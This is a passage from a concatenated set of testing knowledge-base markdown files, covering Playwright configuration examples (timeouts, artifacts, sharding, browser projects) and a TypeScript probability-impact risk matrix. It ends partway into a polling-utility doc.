  await expect(page.getByText('Welcome')).toBeVisible(); // Uses 10s expect timeout
});
```

```typescript
// Usage in tests - Per-test timeout override
import { test, expect } from '../support/fixtures/timeout-fixture';

test('slow data processing operation', async ({ page, extendedTimeout }) => {
  // Override default 60s timeout for this slow test
  await extendedTimeout(180000); // 3 minutes

  await page.goto('/data-processing');
  await page.click('[data-testid="process-large-file"]');

  // Wait for long-running operation
  await expect(page.getByText('Processing complete')).toBeVisible({
    timeout: 120000, // 2 minutes for assertion
  });
});
```

```typescript
// Per-assertion timeout override (inline)
test('API returns quickly', async ({ page }) => {
  await page.goto('/dashboard');

  // Override expect timeout for fast API (reduce flakiness detection)
  await expect(page.getByTestId('user-name')).toBeVisible({ timeout: 5000 }); // 5s instead of 10s

  // Override expect timeout for slow external API
  await expect(page.getByTestId('weather-widget')).toBeVisible({ timeout: 20000 }); // 20s instead of 10s
});
```

**Key Points**:

- **Standardized timeouts**: action 15s, navigation 30s, expect 10s, test 60s (global defaults)
- Fixture-based override (`extendedTimeout`) for slow tests (preferred over inline)
- Per-assertion timeout override via `{ timeout: X }` option (use sparingly)
- Avoid hard waits (`page.waitForTimeout(3000)`) - use event-based waits instead
- CI environments may need longer timeouts (handle in environment-specific config)

### Example 3: Artifact Output Configuration

**Context**: When debugging failures in CI, configure artifacts (screenshots, videos, traces, HTML reports) to be captured on failure and stored in consistent locations for upload.

**Implementation**:

```typescript
// playwright.config.ts - Artifact configuration
import { defineConfig } from '@playwright/test';
import path from 'path';

export default defineConfig({
  // Output directory for test artifacts
  outputDir: path.resolve(__dirname, './test-results'),

  use: {
    // Screenshot on failure only (saves space)
    screenshot: 'only-on-failure',

    // Video recording on failure + retry
    video: 'retain-on-failure',

    // Trace recording on first retry (best debugging data)
    trace: 'on-first-retry',
  },

  reporter: [
    // HTML report (visual, interactive)
    [
      'html',
      {
        outputFolder: 'playwright-report',
        open: 'never', // Don't auto-open in CI
      },
    ],

    // JUnit XML (CI integration)
    [
      'junit',
      {
        outputFile: 'test-results/results.xml',
      },
    ],

    // List reporter (console output)
    ['list'],
  ],
});
```

```typescript
// playwright/support/fixtures/artifact-fixture.ts - Custom artifact capture
import { test as base } from '@playwright/test';
import fs from 'fs';
import path from 'path';

export const test = base.extend({
  // Auto-capture console logs on failure
  page: async ({ page }, use, testInfo) => {
    const logs: string[] = [];

    page.on('console', (msg) => {
      logs.push(`[${msg.type()}] ${msg.text()}`);
    });

    await use(page);

    // Save logs on failure
    if (testInfo.status !== testInfo.expectedStatus) {
      const logsPath = path.join(testInfo.outputDir, 'console-logs.txt');
      fs.writeFileSync(logsPath, logs.join('\n'));
      testInfo.attachments.push({
        name: 'console-logs',
        contentType: 'text/plain',
        path: logsPath,
      });
    }
  },
});
```

```yaml
# .github/workflows/e2e.yml - CI artifact upload
name: E2E Tests
on: [push, pull_request]

jobs:
  test:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - uses: actions/setup-node@v4
        with:
          node-version-file: '.nvmrc'

      - name: Install dependencies
        run: npm ci

      - name: Install Playwright browsers
        run: npx playwright install --with-deps

      - name: Run tests
        run: npm run test
        env:
          TEST_ENV: staging

      # Upload test artifacts on failure
      - name: Upload test results
        if: failure()
        uses: actions/upload-artifact@v4
        with:
          name: test-results
          path: test-results/
          retention-days: 30

      - name: Upload Playwright report
        if: failure()
        uses: actions/upload-artifact@v4
        with:
          name: playwright-report
          path: playwright-report/
          retention-days: 30
```

```typescript
// Example: Custom screenshot on specific condition
test('capture screenshot on specific error', async ({ page }) => {
  await page.goto('/checkout');

  try {
    await page.click('[data-testid="submit-payment"]');
    await expect(page.getByText('Order Confirmed')).toBeVisible();
  } catch (error) {
    // Capture custom screenshot with timestamp
    await page.screenshot({
      path: `test-results/payment-error-${Date.now()}.png`,
      fullPage: true,
    });
    throw error;
  }
});
```

**Key Points**:

- `screenshot: 'only-on-failure'` saves space (not every test)
- `video: 'retain-on-failure'` captures full flow on failures
- `trace: 'on-first-retry'` provides deep debugging data (network, DOM, console)
- HTML report at `playwright-report/` (visual debugging)
- JUnit XML at `test-results/results.xml` (CI integration)
- CI uploads artifacts on failure with 30-day retention
- Custom fixture can capture console logs, network logs, etc.

### Example 4: Parallelization Configuration

**Context**: When tests run slowly in CI, configure parallelization with worker count, sharding, and fully parallel execution to maximize speed while maintaining stability.

**Implementation**:

```typescript
// playwright.config.ts - Parallelization settings
import { defineConfig } from '@playwright/test';
import os from 'os';

export default defineConfig({
  // Run tests in parallel within single file
  fullyParallel: true,

  // Worker configuration
  workers: process.env.CI
    ? 1 // Serial in CI for stability (or 2 for faster CI)
    : os.cpus().length - 1, // Parallel locally (leave 1 CPU for OS)

  // Prevent accidentally committed .only() from blocking CI
  forbidOnly: !!process.env.CI,

  // Retry failed tests in CI
  retries: process.env.CI ? 2 : 0,

  // Shard configuration (split tests across multiple machines)
  shard:
    process.env.SHARD_INDEX && process.env.SHARD_TOTAL
      ? {
          current: parseInt(process.env.SHARD_INDEX, 10),
          total: parseInt(process.env.SHARD_TOTAL, 10),
        }
      : undefined,
});
```

```yaml
# .github/workflows/e2e-parallel.yml - Sharded CI execution
name: E2E Tests (Parallel)
on: [push, pull_request]

jobs:
  test:
    runs-on: ubuntu-latest
    strategy:
      fail-fast: false
      matrix:
        shard: [1, 2, 3, 4] # Split tests across 4 machines
    steps:
      - uses: actions/checkout@v4
      - uses: actions/setup-node@v4
        with:
          node-version-file: '.nvmrc'

      - name: Install dependencies
        run: npm ci

      - name: Install Playwright browsers
        run: npx playwright install --with-deps

      - name: Run tests (shard ${{ matrix.shard }})
        run: npm run test
        env:
          SHARD_INDEX: ${{ matrix.shard }}
          SHARD_TOTAL: 4
          TEST_ENV: staging

      - name: Upload test results
        if: failure()
        uses: actions/upload-artifact@v4
        with:
          name: test-results-shard-${{ matrix.shard }}
          path: test-results/
```

```typescript
// playwright/config/serial.config.ts - Serial execution for flaky tests
import { defineConfig } from '@playwright/test';
import { baseConfig } from './base.config';

export default defineConfig({
  ...baseConfig,

  // Disable parallel execution
  fullyParallel: false,
  workers: 1,

  // Used for: authentication flows, database-dependent tests, feature flag tests
});
```

```typescript
// Usage: Force serial execution for specific tests
import { test } from '@playwright/test';

// Serial execution for auth tests (shared session state)
test.describe.configure({ mode: 'serial' });

test.describe('Authentication Flow', () => {
  test('user can log in', async ({ page }) => {
    // First test in serial block
  });

  test('user can access dashboard', async ({ page }) => {
    // Depends on previous test (serial)
  });
});
```

```typescript
// Usage: Parallel execution for independent tests (default)
import { test } from '@playwright/test';

test.describe('Product Catalog', () => {
  test('can view product 1', async ({ page }) => {
    // Runs in parallel with other tests
  });

  test('can view product 2', async ({ page }) => {
    // Runs in parallel with other tests
  });
});
```

**Key Points**:

- `fullyParallel: true` enables parallel execution within single test file
- Workers: 1 in CI (stability), N-1 CPUs locally (speed)
- Sharding splits tests across multiple CI machines (4x faster with 4 shards)
- `test.describe.configure({ mode: 'serial' })` for dependent tests
- `forbidOnly: true` in CI prevents `.only()` from blocking pipeline
- Matrix strategy in CI runs shards concurrently

### Example 5: Project Configuration

**Context**: When testing across multiple browsers, devices, or configurations, use Playwright projects to run the same tests against different environments (chromium, firefox, webkit, mobile).

**Implementation**:

```typescript
// playwright.config.ts - Multiple browser projects
import { defineConfig, devices } from '@playwright/test';

export default defineConfig({
  projects: [
    // Desktop browsers
    {
      name: 'chromium',
      use: { ...devices['Desktop Chrome'] },
    },
    {
      name: 'firefox',
      use: { ...devices['Desktop Firefox'] },
    },
    {
      name: 'webkit',
      use: { ...devices['Desktop Safari'] },
    },

    // Mobile browsers
    {
      name: 'mobile-chrome',
      use: { ...devices['Pixel 5'] },
    },
    {
      name: 'mobile-safari',
      use: { ...devices['iPhone 13'] },
    },

    // Tablet
    {
      name: 'tablet',
      use: { ...devices['iPad Pro'] },
    },
  ],
});
```

```typescript
// playwright.config.ts - Authenticated vs. unauthenticated projects
import { defineConfig } from '@playwright/test';
import path from 'path';

export default defineConfig({
  projects: [
    // Setup project (runs first, creates auth state)
    {
      name: 'setup',
      testMatch: /global-setup\.ts/,
    },

    // Authenticated tests (reuse auth state)
    {
      name: 'authenticated',
      dependencies: ['setup'],
      use: {
        storageState: path.resolve(__dirname, './playwright/.auth/user.json'),
      },
      testMatch: /.*authenticated\.spec\.ts/,
    },

    // Unauthenticated tests (public pages)
    {
      name: 'unauthenticated',
      testMatch: /.*unauthenticated\.spec\.ts/,
    },
  ],
});
```

```typescript
// playwright/support/global-setup.ts - Setup project for auth
import { chromium, FullConfig } from '@playwright/test';
import path from 'path';

async function globalSetup(config: FullConfig) {
  const browser = await chromium.launch();
  const page = await browser.newPage();

  // Perform authentication
  await page.goto('http://localhost:3000/login');
  await page.fill('[data-testid="email"]', 'test@example.com');
  await page.fill('[data-testid="password"]', 'password123');
  await page.click('[data-testid="login-button"]');

  // Wait for authentication to complete
  await page.waitForURL('**/dashboard');

  // Save authentication state
  await page.context().storageState({
    path: path.resolve(__dirname, '../.auth/user.json'),
  });

  await browser.close();
}

export default globalSetup;
```

```bash
# Run specific project
npx playwright test --project=chromium
npx playwright test --project=mobile-chrome
npx playwright test --project=authenticated

# Run multiple projects
npx playwright test --project=chromium --project=firefox

# Run all projects (default)
npx playwright test
```

```typescript
// Usage: Project-specific test
import { test, expect } from '@playwright/test';

test('mobile navigation works', async ({ page, isMobile }) => {
  await page.goto('/');

  if (isMobile) {
    // Open mobile menu
    await page.click('[data-testid="hamburger-menu"]');
  }

  await page.click('[data-testid="products-link"]');
  await expect(page).toHaveURL(/.*products/);
});
```

```yaml
# .github/workflows/e2e-cross-browser.yml - CI cross-browser testing
name: E2E Tests (Cross-Browser)
on: [push, pull_request]

jobs:
  test:
    runs-on: ubuntu-latest
    strategy:
      fail-fast: false
      matrix:
        project: [chromium, firefox, webkit, mobile-chrome]
    steps:
      - uses: actions/checkout@v4
      - uses: actions/setup-node@v4
      - run: npm ci
      - run: npx playwright install --with-deps

      - name: Run tests (${{ matrix.project }})
        run: npx playwright test --project=${{ matrix.project }}
```

**Key Points**:

- Projects enable testing across browsers, devices, and configurations
- `devices` from `@playwright/test` provide preset configurations (Pixel 5, iPhone 13, etc.)
- `dependencies` ensures setup project runs first (auth, data seeding)
- `storageState` shares authentication across tests (0 seconds auth per test)
- `testMatch` filters which tests run in which project
- CI matrix strategy runs projects in parallel (4x faster with 4 projects)
- `isMobile` context property for conditional logic in tests

## Integration Points

- **Used in workflows**: `*framework` (config setup), `*ci` (parallelization, artifact upload)
- **Related fragments**:
  - `fixture-architecture.md` - Fixture-based timeout overrides
  - `ci-burn-in.md` - CI pipeline artifact upload
  - `test-quality.md` - Timeout standards (no hard waits)
  - `data-factories.md` - Per-test isolation (no shared global state)

## Configuration Checklist

**Before deploying tests, verify**:

- [ ] Environment config map with fail-fast validation
- [ ] Standardized timeouts (action 15s, navigation 30s, expect 10s, test 60s)
- [ ] Artifact storage at `test-results/` and `playwright-report/`
- [ ] HTML + JUnit reporters configured
- [ ] `.env.example`, `.nvmrc`, browser versions committed
- [ ] Parallelization configured (workers, sharding)
- [ ] Projects defined for cross-browser/device testing (if needed)
- [ ] CI uploads artifacts on failure with 30-day retention

_Source: Playwright book repo, enterprise configuration example, Murat testing philosophy (lines 216-271)._
```

## File: `src/agents/bmad-tea/resources/knowledge/probability-impact.md`
```markdown
# Probability and Impact Scale

## Principle

Risk scoring uses a **probability × impact** matrix (1-9 scale) to prioritize testing efforts. Higher scores (6-9) demand immediate action; lower scores (1-3) require documentation only. This systematic approach ensures testing resources focus on the highest-value risks.

## Rationale

**The Problem**: Without quantifiable risk assessment, teams over-test low-value scenarios while missing critical risks. Gut feeling leads to inconsistent prioritization and missed edge cases.

**The Solution**: Standardize risk evaluation with a 3×3 matrix (probability: 1-3, impact: 1-3). Multiply to derive risk score (1-9). Automate classification (DOCUMENT, MONITOR, MITIGATE, BLOCK) based on thresholds. This approach surfaces hidden risks early and justifies testing decisions to stakeholders.

**Why This Matters**:

- Consistent risk language across product, engineering, and QA
- Objective prioritization of test scenarios (not politics)
- Automatic gate decisions (score=9 → FAIL until resolved)
- Audit trail for compliance and retrospectives

## Pattern Examples

### Example 1: Probability-Impact Matrix Implementation (Automated Classification)

**Context**: Implement a reusable risk scoring system with automatic threshold classification

**Implementation**:

```typescript
// src/testing/risk-matrix.ts

/**
 * Probability levels:
 * 1 = Unlikely (standard implementation, low uncertainty)
 * 2 = Possible (edge cases or partial unknowns)
 * 3 = Likely (known issues, new integrations, high ambiguity)
 */
export type Probability = 1 | 2 | 3;

/**
 * Impact levels:
 * 1 = Minor (cosmetic issues or easy workarounds)
 * 2 = Degraded (partial feature loss or manual workaround)
 * 3 = Critical (blockers, data/security/regulatory exposure)
 */
export type Impact = 1 | 2 | 3;

/**
 * Risk score (probability × impact): 1-9
 */
export type RiskScore = 1 | 2 | 3 | 4 | 5 | 6 | 7 | 8 | 9;

/**
 * Action categories based on risk score thresholds
 */
export type RiskAction = 'DOCUMENT' | 'MONITOR' | 'MITIGATE' | 'BLOCK';

export type RiskAssessment = {
  probability: Probability;
  impact: Impact;
  score: RiskScore;
  action: RiskAction;
  reasoning: string;
};

/**
 * Calculate risk score: probability × impact
 */
export function calculateRiskScore(probability: Probability, impact: Impact): RiskScore {
  return (probability * impact) as RiskScore;
}

/**
 * Classify risk action based on score thresholds:
 * - 1-3: DOCUMENT (awareness only)
 * - 4-5: MONITOR (watch closely, plan mitigations)
 * - 6-8: MITIGATE (CONCERNS at gate until mitigated)
 * - 9: BLOCK (automatic FAIL until resolved or waived)
 */
export function classifyRiskAction(score: RiskScore): RiskAction {
  if (score >= 9) return 'BLOCK';
  if (score >= 6) return 'MITIGATE';
  if (score >= 4) return 'MONITOR';
  return 'DOCUMENT';
}

/**
 * Full risk assessment with automatic classification
 */
export function assessRisk(params: { probability: Probability; impact: Impact; reasoning: string }): RiskAssessment {
  const { probability, impact, reasoning } = params;

  const score = calculateRiskScore(probability, impact);
  const action = classifyRiskAction(score);

  return { probability, impact, score, action, reasoning };
}

/**
 * Generate risk matrix visualization (3x3 grid)
 * Returns markdown table with color-coded scores
 */
export function generateRiskMatrix(): string {
  const matrix: string[][] = [];
  const header = ['Impact \\ Probability', 'Unlikely (1)', 'Possible (2)', 'Likely (3)'];
  matrix.push(header);

  const impactLabels = ['Critical (3)', 'Degraded (2)', 'Minor (1)'];
  for (let impact = 3; impact >= 1; impact--) {
    const row = [impactLabels[3 - impact]];
    for (let probability = 1; probability <= 3; probability++) {
      const score = calculateRiskScore(probability as Probability, impact as Impact);
      const action = classifyRiskAction(score);
      const emoji = action === 'BLOCK' ? '🔴' : action === 'MITIGATE' ? '🟠' : action === 'MONITOR' ? '🟡' : '🟢';
      row.push(`${emoji} ${score}`);
    }
    matrix.push(row);
  }

  return matrix.map((row) => `| ${row.join(' | ')} |`).join('\n');
}
```

**Key Points**:

- Type-safe probability/impact (1-3 enforced at compile time)
- Automatic action classification (DOCUMENT, MONITOR, MITIGATE, BLOCK)
- Visual matrix generation for documentation
- Risk score formula: `probability * impact` (max = 9)
- Threshold-based decision rules (6-8 = MITIGATE, 9 = BLOCK)

---

### Example 2: Risk Assessment Workflow (Test Planning Integration)

**Context**: Apply risk matrix during test design to prioritize scenarios

**Implementation**:

```typescript
// tests/e2e/test-planning/risk-assessment.ts
import { assessRisk, generateRiskMatrix, type RiskAssessment } from '../../../src/testing/risk-matrix';

export type TestScenario = {
  id: string;
  title: string;
  feature: string;
  risk: RiskAssessment;
  testLevel: 'E2E' | 'API' | 'Unit';
  priority: 'P0' | 'P1' | 'P2' | 'P3';
  owner: string;
};

/**
 * Assess test scenarios and auto-assign priority based on risk score
 */
export function assessTestScenarios(scenarios: Omit<TestScenario, 'risk' | 'priority'>[]): TestScenario[] {
  return scenarios.map((scenario) => {
    // Auto-assign priority based on risk score
    const priority = mapRiskToPriority(scenario.risk.score);
    return { ...scenario, priority };
  });
}

/**
 * Map risk score to test priority (P0-P3)
 * P0: Critical (score 9) - blocks release
 * P1: High (score 6-8) - must fix before release
 * P2: Medium (score 4-5) - fix if time permits
 * P3: Low (score 1-3) - document and defer
 */
function mapRiskToPriority(score: number): 'P0' | 'P1' | 'P2' | 'P3' {
  if (score === 9) return 'P0';
  if (score >= 6) return 'P1';
  if (score >= 4) return 'P2';
  return 'P3';
}

/**
 * Example: Payment flow risk assessment
 */
export const paymentScenarios: Array<Omit<TestScenario, 'priority'>> = [
  {
    id: 'PAY-001',
    title: 'Valid credit card payment completes successfully',
    feature: 'Checkout',
    risk: assessRisk({
      probability: 2, // Possible (standard Stripe integration)
      impact: 3, // Critical (revenue loss if broken)
      reasoning: 'Core revenue flow, but Stripe is well-tested',
    }),
    testLevel: 'E2E',
    owner: 'qa-team',
  },
  {
    id: 'PAY-002',
    title: 'Expired credit card shows user-friendly error',
    feature: 'Checkout',
    risk: assessRisk({
      probability: 3, // Likely (edge case handling often buggy)
      impact: 2, // Degraded (users see error, but can retry)
      reasoning: 'Error handling logic is custom and complex',
    }),
    testLevel: 'E2E',
    owner: 'qa-team',
  },
  {
    id: 'PAY-003',
    title: 'Payment confirmation email formatting is correct',
    feature: 'Email',
    risk: assessRisk({
      probability: 2, // Possible (template changes occasionally break)
      impact: 1, // Minor (cosmetic issue, email still sent)
      reasoning: 'Non-blocking, users get email regardless',
    }),
    testLevel: 'Unit',
    owner: 'dev-team',
  },
  {
    id: 'PAY-004',
    title: 'Payment fails gracefully when Stripe is down',
    feature: 'Checkout',
    risk: assessRisk({
      probability: 1, // Unlikely (Stripe has 99.99% uptime)
      impact: 3, // Critical (complete checkout failure)
      reasoning: 'Rare but catastrophic, requires retry mechanism',
    }),
    testLevel: 'API',
    owner: 'qa-team',
  },
];

/**
 * Generate risk assessment report with priority distribution
 */
export function generateRiskReport(scenarios: TestScenario[]): string {
  const priorityCounts = scenarios.reduce(
    (acc, s) => {
      acc[s.priority] = (acc[s.priority] || 0) + 1;
      return acc;
    },
    {} as Record<string, number>,
  );

  const actionCounts = scenarios.reduce(
    (acc, s) => {
      acc[s.risk.action] = (acc[s.risk.action] || 0) + 1;
      return acc;
    },
    {} as Record<string, number>,
  );

  return `
# Risk Assessment Report

## Risk Matrix
${generateRiskMatrix()}

## Priority Distribution
- **P0 (Blocker)**: ${priorityCounts.P0 || 0} scenarios
- **P1 (High)**: ${priorityCounts.P1 || 0} scenarios
- **P2 (Medium)**: ${priorityCounts.P2 || 0} scenarios
- **P3 (Low)**: ${priorityCounts.P3 || 0} scenarios

## Action Required
- **BLOCK**: ${actionCounts.BLOCK || 0} scenarios (auto-fail gate)
- **MITIGATE**: ${actionCounts.MITIGATE || 0} scenarios (concerns at gate)
- **MONITOR**: ${actionCounts.MONITOR || 0} scenarios (watch closely)
- **DOCUMENT**: ${actionCounts.DOCUMENT || 0} scenarios (awareness only)

## Scenarios by Risk Score (Highest First)
${scenarios
  .sort((a, b) => b.risk.score - a.risk.score)
  .map((s) => `- **[${s.priority}]** ${s.id}: ${s.title} (Score: ${s.risk.score} - ${s.risk.action})`)
  .join('\n')}
`.trim();
}
```

**Key Points**:

- Risk score → Priority mapping (P0-P3 automated)
- Report generation with priority/action distribution
- Scenarios sorted by risk score (highest first)
- Visual matrix included in reports
- Reusable across projects (extract to shared library)

---

### Example 3: Dynamic Risk Re-Assessment (Continuous Evaluation)

**Context**: Recalculate risk scores as project evolves (requirements change, mitigations implemented)

**Implementation**:

```typescript
// src/testing/risk-tracking.ts
import { type RiskAssessment, assessRisk, type Probability, type Impact } from './risk-matrix';

export type RiskHistory = {
  timestamp: Date;
  assessment: RiskAssessment;
  changedBy: string;
  reason: string;
};

export type TrackedRisk = {
  id: string;
  title: string;
  feature: string;
  currentRisk: RiskAssessment;
  history: RiskHistory[];
  mitigations: string[];
  status: 'OPEN' | 'MITIGATED' | 'WAIVED' | 'RESOLVED';
};

export class RiskTracker {
  private risks: Map<string, TrackedRisk> = new Map();

  /**
   * Add new risk to tracker
   */
  addRisk(params: {
    id: string;
    title: string;
    feature: string;
    probability: Probability;
    impact: Impact;
    reasoning: string;
    changedBy: string;
  }): TrackedRisk {
    const { id, title, feature, probability, impact, reasoning, changedBy } = params;

    const assessment = assessRisk({ probability, impact, reasoning });

    const risk: TrackedRisk = {
      id,
      title,
      feature,
      currentRisk: assessment,
      history: [
        {
          timestamp: new Date(),
          assessment,
          changedBy,
          reason: 'Initial assessment',
        },
      ],
      mitigations: [],
      status: 'OPEN',
    };

    this.risks.set(id, risk);
    return risk;
  }

  /**
   * Reassess risk (probability or impact changed)
   */
  reassessRisk(params: {
    id: string;
    probability?: Probability;
    impact?: Impact;
    reasoning: string;
    changedBy: string;
  }): TrackedRisk | null {
    const { id, probability, impact, reasoning, changedBy } = params;
    const risk = this.risks.get(id);
    if (!risk) return null;

    // Use existing values if not provided
    const newProbability = probability ?? risk.currentRisk.probability;
    const newImpact = impact ?? risk.currentRisk.impact;

    const newAssessment = assessRisk({
      probability: newProbability,
      impact: newImpact,
      reasoning,
    });

    risk.currentRisk = newAssessment;
    risk.history.push({
      timestamp: new Date(),
      assessment: newAssessment,
      changedBy,
      reason: reasoning,
    });

    this.risks.set(id, risk);
    return risk;
  }

  /**
   * Mark risk as mitigated (probability reduced)
   */
  mitigateRisk(params: { id: string; newProbability: Probability; mitigation: string; changedBy: string }): TrackedRisk | null {
    const { id, newProbability, mitigation, changedBy } = params;
    const risk = this.reassessRisk({
      id,
      probability: newProbability,
      reasoning: `Mitigation implemented: ${mitigation}`,
      changedBy,
    });

    if (risk) {
      risk.mitigations.push(mitigation);
      if (risk.currentRisk.action === 'DOCUMENT' || risk.currentRisk.action === 'MONITOR') {
        risk.status = 'MITIGATED';
      }
    }

    return risk;
  }

  /**
   * Get risks requiring action (MITIGATE or BLOCK)
   */
  getRisksRequiringAction(): TrackedRisk[] {
    return Array.from(this.risks.values()).filter(
      (r) => r.status === 'OPEN' && (r.currentRisk.action === 'MITIGATE' || r.currentRisk.action === 'BLOCK'),
    );
  }

  /**
   * Generate risk trend report (show changes over time)
   */
  generateTrendReport(riskId: string): string | null {
    const risk = this.risks.get(riskId);
    if (!risk) return null;

    return `
# Risk Trend Report: ${risk.id}

**Title**: ${risk.title}
**Feature**: ${risk.feature}
**Status**: ${risk.status}

## Current Assessment
- **Probability**: ${risk.currentRisk.probability}
- **Impact**: ${risk.currentRisk.impact}
- **Score**: ${risk.currentRisk.score}
- **Action**: ${risk.currentRisk.action}
- **Reasoning**: ${risk.currentRisk.reasoning}

## Mitigations Applied
${risk.mitigations.length > 0 ? risk.mitigations.map((m) => `- ${m}`).join('\n') : '- None'}

## History (${risk.history.length} changes)
${risk.history
  .reverse()
  .map((h) => `- **${h.timestamp.toISOString()}** by ${h.changedBy}: Score ${h.assessment.score} (${h.assessment.action}) - ${h.reason}`)
  .join('\n')}
`.trim();
  }
}
```

**Key Points**:

- Historical tracking (audit trail for risk changes)
- Mitigation impact tracking (probability reduction)
- Status lifecycle (OPEN → MITIGATED → RESOLVED)
- Trend reports (show risk evolution over time)
- Re-assessment triggers (requirements change, new info)

---

### Example 4: Risk Matrix in Gate Decision (Integration with Trace Workflow)

**Context**: Use probability-impact scores to drive gate decisions (PASS/CONCERNS/FAIL/WAIVED)

**Implementation**:

```typescript
// src/testing/gate-decision.ts
import { type RiskScore, classifyRiskAction, type RiskAction } from './risk-matrix';
import { type TrackedRisk } from './risk-tracking';

export type GateDecision = 'PASS' | 'CONCERNS' | 'FAIL' | 'WAIVED';

export type GateResult = {
  decision: GateDecision;
  blockers: TrackedRisk[]; // Score=9, action=BLOCK
  concerns: TrackedRisk[]; // Score 6-8, action=MITIGATE
  monitored: TrackedRisk[]; // Score 4-5, action=MONITOR
  documented: TrackedRisk[]; // Score 1-3, action=DOCUMENT
  summary: string;
};

/**
 * Evaluate gate based on risk assessments
 */
export function evaluateGateFromRisks(risks: TrackedRisk[]): GateResult {
  const blockers = risks.filter((r) => r.currentRisk.action === 'BLOCK' && r.status === 'OPEN');
  const concerns = risks.filter((r) => r.currentRisk.action === 'MITIGATE' && r.status === 'OPEN');
  const monitored = risks.filter((r) => r.currentRisk.action === 'MONITOR');
  const documented = risks.filter((r) => r.currentRisk.action === 'DOCUMENT');

  let decision: GateDecision;

  if (blockers.length > 0) {
    decision = 'FAIL';
  } else if (concerns.length > 0) {
    decision = 'CONCERNS';
  } else {
    decision = 'PASS';
  }

  const summary = generateGateSummary({ decision, blockers, concerns, monitored, documented });

  return { decision, blockers, concerns, monitored, documented, summary };
}

/**
 * Generate gate decision summary
 */
function generateGateSummary(result: Omit<GateResult, 'summary'>): string {
  const { decision, blockers, concerns, monitored, documented } = result;

  const lines: string[] = [`## Gate Decision: ${decision}`];

  if (decision === 'FAIL') {
    lines.push(`\n**Blockers** (${blockers.length}): Automatic FAIL until resolved or waived`);
    blockers.forEach((r) => {
      lines.push(`- **${r.id}**: ${r.title} (Score: ${r.currentRisk.score})`);
      lines.push(`  - Probability: ${r.currentRisk.probability}, Impact: ${r.currentRisk.impact}`);
      lines.push(`  - Reasoning: ${r.currentRisk.reasoning}`);
    });
  }

  if (concerns.length > 0) {
    lines.push(`\n**Concerns** (${concerns.length}): Address before release`);
    concerns.forEach((r) => {
      lines.push(`- **${r.id}**: ${r.title} (Score: ${r.currentRisk.score})`);
      lines.push(`  - Mitigations: ${r.mitigations.join(', ') || 'None'}`);
    });
  }

  if (monitored.length > 0) {
    lines.push(`\n**Monitored** (${monitored.length}): Watch closely`);
    monitored.forEach((r) => lines.push(`- **${r.id}**: ${r.title} (Score: ${r.currentRisk.score})`));
  }

  if (documented.length > 0) {
    lines.push(`\n**Documented** (${documented.length}): Awareness only`);
  }

  lines.push(`\n---\n`);
  lines.push(`**Next Steps**:`);
  if (decision === 'FAIL') {
    lines.push(`- Resolve blockers or request formal waiver`);
  } else if (decision === 'CONCERNS') {
    lines.push(`- Implement mitigations for high-risk scenarios (score 6-8)`);
    lines.push(`- Re-run gate after mitigations`);
  } else {
    lines.push(`- Proceed with release`);
  }

  return lines.join('\n');
}
```

**Key Points**:

- Gate decision driven by risk scores (not gut feeling)
- Automatic FAIL for score=9 (blockers)
- CONCERNS for score 6-8 (requires mitigation)
- PASS only when no blockers/concerns
- Actionable summary with next steps
- Integration with trace workflow (Phase 2)

---

## Probability-Impact Threshold Summary

| Score | Action   | Gate Impact          | Typical Use Case                       |
| ----- | -------- | -------------------- | -------------------------------------- |
| 1-3   | DOCUMENT | None                 | Cosmetic issues, low-priority bugs     |
| 4-5   | MONITOR  | None (watch closely) | Edge cases, partial unknowns           |
| 6-8   | MITIGATE | CONCERNS at gate     | High-impact scenarios needing coverage |
| 9     | BLOCK    | Automatic FAIL       | Critical blockers, must resolve        |

## Risk Assessment Checklist

Before deploying risk matrix:

- [ ] **Probability scale defined**: 1 (unlikely), 2 (possible), 3 (likely) with clear examples
- [ ] **Impact scale defined**: 1 (minor), 2 (degraded), 3 (critical) with concrete criteria
- [ ] **Threshold rules documented**: Score → Action mapping (1-3 = DOCUMENT, 4-5 = MONITOR, 6-8 = MITIGATE, 9 = BLOCK)
- [ ] **Gate integration**: Risk scores drive gate decisions (PASS/CONCERNS/FAIL/WAIVED)
- [ ] **Re-assessment process**: Risks re-evaluated as project evolves (requirements change, mitigations applied)
- [ ] **Audit trail**: Historical tracking for risk changes (who, when, why)
- [ ] **Mitigation tracking**: Link mitigations to probability reduction (quantify impact)
- [ ] **Reporting**: Risk matrix visualization, trend reports, gate summaries

## Integration Points

- **Used in workflows**: `*test-design` (initial risk assessment), `*trace` (gate decision Phase 2), `*nfr-assess` (security/performance risks)
- **Related fragments**: `risk-governance.md` (risk scoring matrix, gate decision engine), `test-priorities-matrix.md` (P0-P3 mapping), `nfr-criteria.md` (impact assessment for NFRs)
- **Tools**: TypeScript for type safety, markdown for reports, version control for audit trail

_Source: Murat risk model summary, gate decision patterns from production systems, probability-impact matrix from risk governance practices_
```

## File: `src/agents/bmad-tea/resources/knowledge/recurse.md`
```markdown
# Recurse (Polling) Utility

## Principle

Use Cypress-style polling with Playwright's `expect.poll` to wait for asynchronous conditions. Provides configurable timeout, interval, logging, and post-polling callbacks with enhanced error categorization. **Ideal for backend testing**: polling API endpoints for job completion, database eventual consistency, message queue processing, and cache propagation.

## Rationale

Testing async operations (background jobs, eventual consistency, webhook processing) requires polling:

- Vanilla `expect.poll` is verbose
- No built-in logging for debugging
- Generic timeout errors
- No post-poll hooks

The `recurse` utility provides:

- **Clean syntax**: Inspired by cypress-recurse
- **Enhanced errors**: Timeout vs command failure vs predicate errors
- **Built-in logging**: Track polling progress
- **Post-poll callbacks**: Process results after success
- **Type-safe**: Full TypeScript generic support

## Quick Start

```typescript
import { test } from '@seontechnologies/playwright-utils/recurse/fixtures';

test('wait for job completion', async ({ recurse, apiRequest }) => {
  const { body } = await apiRequest({
    method: 'POST',
    path: '/api/jobs',
    body: { type: 'export' },
  });

  // Poll until job completes
  const result = await recurse(
    () => apiRequest({ method: 'GET', path: `/api/jobs/${body.id}` }),
    (response) => response.body.status === 'completed',
    { timeout: 60000 },
  );

  expect(result.body.downloadUrl).toBeDefined();
});
```

## Pattern Examples

### Example 1: Basic Polling

**Context**: Wait for async operation to complete with custom timeout and interval.

**Implementation**:

```typescript
import { test } from '@seontechnologies/playwright-utils/recurse/fixtures';

test('should wait for job completion', async ({ recurse, apiRequest }) => {
  // Start job
  const { body } = await apiRequest({
    method: 'POST',
    path: '/api/jobs',
    body: { type: 'export' },
  });

  // Poll until ready
  const result = await recurse(
    () => apiRequest({ method: 'GET', path: `/api/jobs/${body.id}` }),
    (response) => response.body.status === 'completed',
    {
      timeout: 60000, // 60 seconds max
